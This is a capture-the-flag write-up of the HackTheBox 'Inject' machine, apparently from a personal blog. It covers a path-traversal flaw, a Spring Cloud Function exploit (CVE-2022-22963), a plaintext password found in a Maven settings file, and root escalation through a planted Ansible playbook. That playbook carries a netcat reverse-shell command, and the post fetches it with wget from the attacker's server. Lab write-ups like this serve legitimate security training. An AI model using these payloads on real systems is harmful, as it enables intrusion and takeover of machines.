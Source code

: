 ```yaml
---
title: "HackTheBox - Inject"
date: 2023-06-15 12:00:00 +/-0530
categories: [HackTheBox]
tags: [CTF, HTB]     # TAG names should always be lowercase
---
```


![LOGO](../assets/img/Inject/Inject.png)

## Description

The box is available [here](https://app.hackthebox.com/machines/533). *Try it before read this article.*

- OS : Linux
- Release date : 11/03/23
- Difficulty : Easy
- Points : 20
- IP Adress : 10.10.11.204

You can add `Inject.htb` to the /etc/hosts file !

Now, we can start !

## Foothold

### Scanning and Enumeration

First, we use *Nmap* to discover the open ports :

```markdown
nmap -p- Inject.htb
```
We have the following result : 

```markdown
#Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-11 21:35 CEST
Nmap scan report for Inject.htb (10.10.11.204)
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

#Nmap done: 1 IP address (1 host up) scanned in 21.14 seconds
```

There are two open ports,
**Ssh** doesn't look interesting. Go on website with Firefox.

The `/upload` is very interesting. We can test the service.

![Website_upload](../assets/img/Inject/Website_upload.png)

### Exploit the LFI

Start *BurpSuite* and we can see that `show_image?img=` is vulnerable.

![lfi_1](../assets/img/Inject/lfi_1.png)

After check important files, we have nothing. But here we can list each directory : 

````markdown
# Java List Directories
It looks like if you have a Path Traversal in Java and you ask for a directory instead of a file, a listing of 
the directory is returned.
This won't be happening in other languages (afaik).
````
Source : https://book.hacktricks.xyz/pentesting-web/file-inclusion#java-list-directories

Now, there is a file which is important, called `pom.xml` : 

![pom](../assets/img/Inject/pom.png)

We can see some services with the version. The `SpringBook` is interesting because the version is vulnerable.

Just Googling the version and we found some exploit. I will use this one, avalable [here](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit).

Execute the script with the command : 

````markdown
python3 exploit.py -u http://inject.htb:8080/
````

And we have a shell !

*More about CVE-2022-22963 :*

- https://nvd.nist.gov/vuln/detail/CVE-2022-22963
- https://github.com/me2nuk/CVE-2022-22963

## User 

We are logged as *Frank*. There is another user called *Phil*. 

In the `/home/frank/` directory, listing all files and hidden dirs, and we have a `settings.xml` file with the following content :

````markdown
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
````

Nice ! This looks like a password for *Phil*. Try to connect with **Ssh** but it doesn't work.

Upgrade your shell with :

````markdown
python3 -c 'import pty; pty.spawn("/bin/bash")'
````

Try `su phil` and enter the password : `DocPhillovestoInject123`. It works !

Navigate into the files and we have the user flag !

![flag_user](../assets/img/Inject/flag_user.png)

## Privesc 

We need to be root to read the last flag.

### Find the vulnerability

Basic enumeration with automated tools can help us like [*Linpeas*](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

We will use [*pspy64*](https://github.com/DominicBreuker/pspy) to see the services which are running in background.

The script return :

````markdown
/usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml

/bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
````

So there is a crontab which execute *Ansible* as root. In the `/opt/automation/tasks/` directory, we can write and create files because *Phil* is in the *Staff* group. 

### Exploit Ansible

This article will help us : https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/#privesc-with-automation-task

To privesc : 

- Create malicious file (Attacker)
- Start HTTP server (Attacker)
- Change name of original file
- Get the malicious file
- Wait

First, we need to craft a malicious file. The name will be `playbook_1.yml` :

````markdown
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
  - name: Evil
    ansible.builtin.shell: |
      /usr/bin/rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {YOUR_IP} 1234 >/tmp/f
    become: true
````

Now, start a HTTP server with **python3** :

````markdown
python3 -m http.server
````

On the target, change name of the original file and use **wget** to download your payload : 

````markdown
mv playbook_1.yml pl.txt
wget http://10.10.14.206:8000/playbook_1.yml
````

Finally, wait ~ 2 min and you will receive a connection. *Don't forget to start a listener !*

![root_exploit](../assets/img/Inject/root_exploit1.png)

### Root flag 

We are root ! We can read the root flag.

![root_flag](../assets/img/Inject/root.png)

## Conclusion

The box was fun and pretty straight forward. 

Thanks for reading !

[HackTheBox - Completed](https://www.hackthebox.com/achievement/machine/356950/533)
